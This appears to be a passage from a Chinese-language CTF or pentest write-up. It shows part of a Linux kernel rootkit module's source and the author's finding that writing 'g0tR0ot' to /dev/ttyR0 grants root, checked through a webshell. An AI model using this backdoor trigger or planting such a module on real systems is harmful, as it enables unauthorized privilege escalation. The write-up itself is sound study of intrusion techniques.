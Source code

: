 ```c
 
   // Register the device class
   rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
   if (IS_ERR(rootcharClass))
     {
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharClass); 
   }
 
   // Register the device driver
   rootcharDevice = device_create(rootcharClass, NULL,
				  MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
   if (IS_ERR(rootcharDevice))
     {
       class_destroy(rootcharClass);
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharDevice);
     }

    return 0;    
}

static void __exit
root_exit(void) 
{
  // Destroy the device
  device_destroy(rootcharClass, MKDEV(majorNumber, 0));
  class_unregister(rootcharClass);                     
  class_destroy(rootcharClass);                        
  unregister_chrdev(majorNumber, DEVICE_NAME);     
}


module_init(root_init);
module_exit(root_exit);
```

在谷歌搜索了一下 `Got r00t!.` 这个关键字，看到了这篇文章：[Kernel RootKits. Getting your hands dirty - Malware - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)

大概知道了这个程序是一个内核后门，使用方法如下：

```
$ id
uid=1000(pico) gid=1000(pico) groups=1000(pico)
$ echo "g0tR0ot" > /dev/ttyR0
$ id
uid=0(root) gid=0(root) groups=0(root)
```

通过 webshell 查看 `/dev/ttyR0` 文件存在

![](https://vip1.loli.net/2020/05/24/9YaxBDJw17qRZFh.png)
